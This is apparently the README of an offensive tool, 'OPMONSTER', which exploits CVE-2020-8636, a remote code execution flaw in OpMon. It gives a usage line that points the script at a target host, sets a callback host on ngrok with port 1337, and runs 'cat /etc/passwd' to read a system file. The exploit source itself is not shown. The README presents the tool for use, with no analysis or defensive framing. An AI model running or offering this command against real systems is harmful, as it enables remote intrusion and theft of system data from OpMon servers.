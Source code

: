 # OPMONSTER
### CVE-2020-8636 by @phor3nsic

<img src="img/opmonster.png">
  
  
 ```
 python3 opmonster.py https://vulnhost.com http://myhost.ngrok.io 1337 "cat /etc/passwd"
 ```

### Remote code execution in Opmon
